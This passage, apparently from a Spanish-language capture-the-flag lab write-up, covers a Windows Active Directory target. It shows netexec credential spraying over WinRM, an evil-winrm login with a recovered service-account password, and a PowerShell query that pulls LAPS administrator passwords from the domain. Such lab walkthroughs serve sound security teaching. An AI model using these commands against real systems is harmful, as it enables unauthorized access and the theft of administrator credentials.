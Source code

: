 {% code overflow="wrap" %}
```bash
netexec winrm 10.10.11.152 -u usersAD.txt -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/666_vmware_jNV1LAlLQ8.png" alt=""><figcaption></figcaption></figure>

Procederemos nuevamente a conectarnos al WinRM con el usuario y las credenciales encontradas, comprobamos que ganamos acceso como usuario "svc\_deploy".

```bash
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```

<figure><img src="../../../.gitbook/assets/667_vmware_gbG7HSNGUt.png" alt=""><figcaption></figcaption></figure>

### Abusing LAPS to get passwords

Procederemos a enumerar las contraseñas de los usuarios Administradores de todos los equipos del AD para aprovecharnos de LAPS para extraer las credenciales. Comprobamos que hemos encontrado una contraseña.

{% code overflow="wrap" %}
```bash
Get-ADComputer -Filter * -Property ms-MCS-AdmPwd | Select-Object Name, ms-MCS-AdmPwd
```
{% endcode %}
